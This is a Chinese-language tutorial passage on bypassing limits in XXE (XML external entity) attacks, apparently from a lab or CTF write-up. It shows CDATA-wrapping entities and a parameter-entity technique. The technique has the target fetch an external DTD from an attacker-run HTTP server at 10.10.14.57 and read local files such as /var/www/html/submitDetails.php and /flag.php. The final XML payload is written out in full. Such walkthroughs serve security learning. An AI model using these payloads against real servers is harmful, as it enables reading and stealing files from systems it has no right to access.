 ***

### ⭐ **繞過方法 1 — CDATA 包裝**

在 DTD 文件中預先定義好：

```xml
<!ENTITY begin "<![CDATA[">
<!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
<!ENTITY end "]]>">
<!ENTITY joined "&begin;&file;&end;">
```

最後在 XML 裡調用 `&joined;` ，伺服器返回內容就會被包在 `<![CDATA[ ]]>` 裡。



### ⭐ **繞過方法 2 — Parameter Entities（參數實體）**

* 普通 `ENTITY` 是 `&xxe;`
* **參數實體** 是 `%xxe;`，只能在 DTD 裡用
* 它最大的用途：\
  你可以把 `%xxe;` 放在**外部 DTD 文件**，讓目標伺服器去你主機下載 `.dtd`，然後讀取本地文件內容，最後連接成 XML 安全格式輸出。

***



### ⭐ **操作流程範例**

**✅ 1. 本地建立 xxe.dtd 檔案：**

```bash
echo '<!ENTITY joined "%begin;%file;%end;">' > XXE.dtd
```

> 注意最後一行等於告訴 XML「先引入 begin、file、end 三個實體，再合併成一個叫 joined」的最終實體。

***

**✅ 2. 啟動 HTTP 伺服器讓目標伺服器來抓：**

```bash
python3 -m http.server 8000
```

* 此時伺服器在 `http://你的IP:8000/xxe.dtd` 提供下載。



**✅ 3. 向目標提交 payload：**

<pre class="language-xml"><code class="lang-xml">&#x3C;?xml version="1.0" encoding="UTF-8"?>
&#x3C;!DOCTYPE email [
  &#x3C;!ENTITY % begin "&#x3C;![CDATA[">
  &#x3C;!ENTITY % file SYSTEM "file:///flag.php">
  &#x3C;!ENTITY % end "]]>">
  &#x3C;!ENTITY % xxe SYSTEM "http://10.10.14.57:8000/XXE.dtd">
  %xxe;
]>
&#x3C;root>
  &#x3C;name>hack&#x3C;/name>
<strong>  &#x3C;tel>4324324&#x3C;/tel>
</strong>  &#x3C;email>&#x26;joined;&#x3C;/email>
  &#x3C;message>hackyou&#x3C;/message>
&#x3C;/root>
</code></pre>
